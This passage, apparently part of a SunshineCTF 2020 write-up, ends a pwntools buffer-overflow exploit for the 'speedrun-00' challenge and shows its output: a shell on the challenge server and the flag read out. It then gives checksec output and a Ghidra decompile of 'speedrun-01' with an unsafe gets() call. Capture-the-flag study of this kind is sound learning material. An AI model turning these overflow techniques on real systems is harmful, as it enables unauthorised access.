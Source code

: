 ```python
payload += p32(0xfacade)

p.sendlineafter('This is the only one\n',payload)
p.interactive()
```

Output:

```bash
# ./exploit_00.py REMOTE=1
[*] '/pwd/datajerk/sunshinectf2020/speedrun-00/chall_00'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      PIE enabled
[+] Opening connection to chal.2020.sunshinectf.org on port 30000: Done
[*] Switching to interactive mode
$ id
uid=1000(chall_00) gid=1000(chall_00) groups=1000(chall_00)
$ ls -l
total 16
-rwxr-xr-x 1 root root     8392 Nov  7 07:49 chall_00
-rw-r----- 1 root chall_00   35 Nov  7 08:51 flag.txt
$ cat flag.txt
sun{burn-it-down-6208bbc96c9ffce4}
```


## speedrun-01

### Checksec
```
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      PIE enabled
```

No stack canary, assume BOF.

### Decompile with Ghidra

```c
void main(void)
{
  char local_68 [64];
  char local_28 [24];
  int local_10;
  int local_c;
  
  puts("Long time ago, you called upon the tombstones");
  fgets(local_28,0x13,stdin);
  gets(local_68);
  if (local_c == 0xfacade) {
    system("/bin/sh");
  }
  if (local_10 == 0xfacade) {
    system("/bin/sh");
  }
  return;
}
```
